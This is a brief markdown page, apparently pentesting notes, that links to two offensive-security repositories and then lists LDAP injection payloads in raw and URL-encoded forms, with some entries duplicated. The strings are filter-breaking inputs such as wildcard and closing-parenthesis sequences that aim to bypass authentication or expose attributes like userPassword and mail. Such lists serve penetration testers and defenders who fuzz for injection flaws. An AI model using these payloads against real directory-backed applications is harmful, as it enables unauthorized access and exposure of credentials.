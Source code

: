 - InfoSecWarrior:  https://github.com/InfoSecWarrior/Offensive-Pentesting-Web/tree/main/Injections/LDAP-Injection
- PayLoadAllTheThings: https://github.com/Ne3o1/PayLoadAllTheThings/tree/master/LDAP%20injection

## LDAP payload list：
```
*
*)(&
*))%00
 )(cn=))\x00
 *()|%26'
 *()|&'
 *(|(mail=*))
 *(|(objectclass=*))
 *)(uid=*))(|(uid=*
 */*
 *|
 /
 //
 //*
 @*
 |
 admin*
 admin*)((|userpassword=*)
 admin*)((|userPassword=*)
 x' or name()='username' or 'x'='y
*()|%26'
*()|&'
*(|(mail=*))
*(|(objectclass=*))
*)(uid=*))(|(uid=*
*/*
*|
/
//
//*
@*
|
admin*
admin*)((|userpassword=*)
admin*)((|userPassword=*)
x' or name()='username' or 'x'='y
!
%21
%26
%28
%29
%2A%28%7C%28mail%3D%2A%29%29
%2A%28%7C%28objectclass%3D%2A%29%29
%2A%7C
%7C
&
(
)
```
